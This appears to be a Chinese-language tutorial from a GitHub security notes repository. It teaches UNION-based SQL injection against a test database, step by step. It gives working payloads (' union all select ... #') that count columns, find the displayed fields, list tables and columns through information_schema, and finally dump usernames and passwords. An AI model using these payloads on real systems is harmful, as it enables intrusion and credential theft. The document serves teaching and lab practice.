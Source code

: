 ### 1、在一条sql语句中，执行多条查询
```yaml
UNION操作符选取不重复的值。如果允许重复的值，请使用UNION ALL
渗透大多数情况，使用UNION ALL
```
```sql
SELECT id,username FROM `user` WHERE id = 1 
union all 
SELECT id,username FROM `user` WHERE id = 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_10.png)
### 2、information_schema数据库中有三个表非常重要
```yaml
1.schemata:表里包含所有数据库的名字 
2.tables:表里包含所有数据库的所有的表，默认字段为table_name 
3.columns:三个列非常重要
    TABLE_SCHEMA:数据库名 
    TABLE_NAME:表名
    COLUMN_NAME:字段名
```
### 3、联合注入的过程1：
#### 使用order by判断注入点，联合查询的多条语句，列数必须一致
#### 3.1 首先要了解order by，排序
```sql
# 以第一列id为基础，进行排序
SELECT id,username FROM `user` ORDER BY 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_11.png)
```sql
# 以第二列，username为基础，进行排序
SELECT id,username FROM `user` ORDER BY 2;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_12.png)
```sql
# 以第三列进行排序，报错
SELECT id,username FROM `user` ORDER BY 3;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_13.png)
#### 3.2 通过上面order by的方式，来判断sql语句返回的数据，有多少列
```sql
1' order by 12 #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_14.png)
```sql
select * from user where username='1' order by 13 #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_15.png)
```yaml
通过以上数据可以证明，需要渗透的数据库表格中，一共有12列
```
### 4、联合注入的过程2：
### 判断是整型还是字符型
```yaml
判断是整形还是字符型，参考sql注入的2，3号文档
```
### 5、联合注入的过程3:
### 判断显示位，就是哪一列在前端进行了展示
#### 5.1 通过上面的举例，可以看出，一共有12列，那么，可以通过union all，来判断哪几位展示给了前端
```sql
1' union all select 1,2,3,4,5,6,7,8,9,10,11,12  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_16.png)
```sql
select * from user where username='1' union all select 1,2,3,4,5,6,7,8,9,10,11,12 #';
```
![image](https://github.com/498946975/Security/blob/master/images/sql_17.png)

### 6、联合注入的过程4:
### 获取数据库的名称,和数据库版本
#### 6.1 通过以上的数据，在第二列和第11列，输入函数，显示对应的信息
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,version(),12  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_18.png)
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,version(),12 #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_19.png)

### 7、联合注入的过程5:
### 巧妙使用group_concat(table_name)函数，获取所有表的名称
### group_concat：把同一列的，多行，拼接到一起
#### 7.1 把所有的table_name拼接起来，在第11列进行展示
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,group_concat(table_name),12 from information_schema.tables where table_schema = 'test_fastapi'  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_20.png)
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,group_concat(table_name),12 from information_schema.tables where table_schema = 'test_fastapi' #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_21.png)
### 8、联合注入的过程6:
### 使用column_name，查询某一个表的，所有列的名称
#### 8.1 通过以上的数据，可以查到，有个表叫user，下面查询，user这个表的所有列的名称
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,column_name,12  from information_schema.columns where table_schema = 'test_fastapi' and table_name = 'user' #
```
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,column_name,12 from information_schema.columns where table_schema = 'test_fastapi' and table_name = 'user' #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_24.png)

### 9、联合注入的过程7:
### 查询user表的用户名和密码
```sql
1' union all select 1,username,3,4,5,6,7,8,9,10,pwd,12 from user #
```
```sql
select * from user where username='1' union all select 1,username,3,4,5,6,7,8,9,10,pwd,12 from user #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_25.png)
